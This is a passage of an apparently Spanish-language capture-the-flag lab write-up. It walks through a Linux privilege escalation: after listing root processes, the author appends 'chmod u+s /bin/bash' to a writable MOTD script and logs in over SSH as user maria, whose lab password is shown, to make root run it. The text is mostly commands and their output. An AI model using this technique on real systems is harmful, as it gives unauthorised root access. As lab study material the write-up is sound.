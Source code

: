 Listando los procesos del sistema:
```bash
ps -faux | grep "root"
```

Se esta ejecutando como **root**
```bash
ps -faux | grep "root"
root           1  0.0  0.0   2800  1620 ?        Ss   06:35   0:00 /bin/sh -c systemctl start vsftpd ; service ssh start && service apache2 start && tail -f /dev/null
root           9  0.0  0.0   9088  3500 ?        Ss   06:35   0:00 /usr/sbin/vsftpd /etc/vsftpd.conf
root          18  0.0  0.0  12020  4320 ?        Ss   06:35   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root         430  0.0  0.0  12532  7348 ?        Ss   08:47   0:00  \_ sshd: norberto [priv]
root         451  0.0  0.0   4760  3264 pts/2    S    08:51   0:00                  \_ su maria
maria        478  0.0  0.0   3956  1984 pts/2    S+   09:03   0:00                          \_ grep --color=auto root
root          36  0.0  0.1 203456 21968 ?        Ss   06:35   0:00 /usr/sbin/apache2 -k start
root         366  0.0  0.0  11424  5552 pts/0    S+   08:28   0:00  |                       \_ sudo -u norberto /usr/bin/baner
root         367  0.0  0.0  11424  1984 pts/1    Ss   08:28   0:00  |                           \_ sudo -u norberto /usr/bin/baner
root          48  0.0  0.0   2728  1432 ?        S    06:35   0:00 tail -f /dev/null
```

Ahora como este archvio nos pertenece: 
```bash
/etc/update-motd.d/00-header
```

Ahora inyectamos una instruccion maliciosoa que nos permita que se le asignen permsios **SUID** a la bash de **root**
```bash
echo "chmod u+s /bin/bash" >> /etc/update-motd.d/00-header
```

Ahora para que se ejecute tenemos que conectarnos por **ssh** con las credenciales maria:
```bash
ssh-keygen -R 172.17.0.2 && ssh maria@172.17.0.2 # ( asientiendesmejor )
```

Sabemos que se ejecuta ya que nos muestra el panel de bienvenida:
```bash
SORPRESA
FELIZ HACK


 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
  _   _   _   _   _   _   _   _   _   _  
 / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
( F | I | R | S | T | A | T | A | C | K )
 \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 
  _   _   _   _   _     _   _   _   _ 
 / \ / \ / \ / \ / \   / \ / \ / \ / \ 
( f | e | l | i | z ) ( h | a | c | k )
 \_/ \_/ \_/ \_/ \_/   \_/ \_/ \_/ \_/ 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```
